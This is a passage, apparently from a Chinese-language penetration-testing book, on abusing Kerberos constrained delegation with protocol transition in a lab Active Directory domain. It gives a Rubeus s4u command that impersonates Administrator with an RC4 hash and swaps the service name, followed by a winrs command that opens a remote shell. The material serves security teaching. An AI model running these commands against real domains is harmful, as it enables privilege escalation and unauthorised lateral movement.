 结果还将显示受限委托类型：

![图 5.36 – 枚举委托类型](img/B18964_05_36.jpg)

图 5.36 – 枚举委托类型

使用协议转换的受限委托可能会被滥用，通过以下命令：

```
Rubeus.exe s4u /msdsspn:CIFS/winterfell /impersonateuser:Administrator /domain:north.sevenkingdoms.local /user:jon.snow /rc4:B8D76E56E9DAC90539AFF05E3CCB1755 /altservice:HTTP /ptt
winrs -r:winterfell cmd.exe
```

结果可以在以下截图中看到：

![图 5.37 – 协议转换滥用的受限委托结果](img/B18964_05_37.jpg)

图 5.37 – 协议转换滥用的受限委托结果

需要特别说明的是，SPN 部分在请求中未加密，这就是为什么我们可以使用 Rubeus 中的**/altservice**选项来获取服务票证——在我们这个例子中，是 WinRM。

注意

可用服务的详细列表可以在这里找到：[`book.hacktricks.xyz/windows-hardening/active-directory-methodology/silver-ticket#available-services`](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/silver-ticket#available-services)。

HTTP 服务配置时未进行协议转换，如下图所示：

![图 5.38 – 配置了无协议转换的受限委托](img/B18964_05_38.jpg)
